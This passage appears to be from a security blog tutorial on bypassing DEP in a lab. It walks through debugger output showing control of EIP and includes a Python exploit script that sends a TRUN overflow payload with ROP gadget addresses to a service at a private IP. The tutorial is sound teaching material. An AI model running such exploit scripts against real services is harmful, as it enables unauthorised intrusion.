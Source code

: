 2. We executed the exploit.

3. The breakpoint was hit.

4. When it hits, look at the value pointed by `ESP`: `EE05C031`.

5. That value is part of the shellcode injected:

    1. `xor eax,eax` → `\x31\xc0`

    2. `add eax,0xdeadbeee` → `\x05\xee\xbe\xad\xde` (the first two
        bytes)

6. When the `RETN` instruction is executed, that value `EE05C031` is
    stored on `EIP`.

What it means is that we can replace the `EE05C031` bytes with an
arbitrary pointer that will become the next instruction to be executed\!

In our exploit, we want to make `EAX` = `0xdeadbeef` using three
instructions: `xor eax,eax`, `add eax,0xdeadbeee` and `inc eax`. Let’s
check if we can find a pointer in the execution environment that
performs the first (`xor eax,eax`) operation:

<div class="imgblock">

![RETN](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330677/blog/bypassing-dep/find1_it5idv.gif)

</div>

We could find one at `62501162` that points to a `xor eax,eax`. Let’s
update our exploit and place that address instead of the `xor eax,eax`
instruction:

``` python
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # 62501162  |.  31C0                  XOR EAX,EAX
    struct.pack('<L', 0x62501162) +
    b'\x05\xee\xbe\xad\xde' +       # add eax,0xdeadbeee
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```
